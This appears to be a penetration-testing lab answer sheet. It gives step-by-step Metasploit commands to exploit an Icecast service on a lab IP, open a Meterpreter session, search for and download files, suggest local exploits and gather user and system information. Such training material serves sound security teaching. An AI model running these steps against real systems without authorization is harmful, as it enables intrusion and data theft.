





# Penetration Test Engagement
1. Perform a service and version scan using Nmap to determine which services are up and running:
-  Run the Nmap command that performs a service and version scan against the target.
    - Answer: `nmap -sV 192.168.0.20`
    - 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
- Run the SearchSploit commands to show available Icecast exploits.
  - Answer: `searchsploit icecast`
  - 
3. Now that we know which exploits are available to us, let's start Metasploit:
- Run the command that starts Metasploit:
  - Answer: `msfconsole`
  - 
4. Search for the Icecast module and load it for use.
- Run the command to search for the Icecast module:
   - Answer:`search icecast`
   - 
- Run the command to use the Icecast module:
  - Note: Instead of copying the entire path to the module, you can use the number in front of it.
    - Answer: `use 0`
    - 
5. Set the RHOST to the target machine.
- Run the command that sets the RHOST:
  - Answer: `set RHOST 192.168.0.20`
  - 
6. Run the Icecast exploit.
- Run the command that runs the Icecast exploit.
  - Answer: `run`
  - 
- Run the command that performs a search for the secretfile.txt on the target.
  - Answer: `search -f *secretfile*.txt`
  - 
7. You should now have a Meterpreter session open.
- Run the command to performs a search for the recipe.txt on the target:
  - Answer:`search -f *recipe*.txt`
  - 
- Bonus: Run the command that exfiltrates the recipe*.txt file:
  - Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`
  - 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
- Command to find local exploits:
  - Answer: `run post/multi/recon/local_exploit_suggester`
  - 
- Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

## Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
  - Answer: `run post/windows/gather/enum_logged_on_users`
  - 
B. Open a Meterpreter shell and gather system information for the target.
  - Answer: `shell`
  - 
C. Run the command that displays the target's computer system information:
  - Answer: `systeminfo`
  - 
  - 
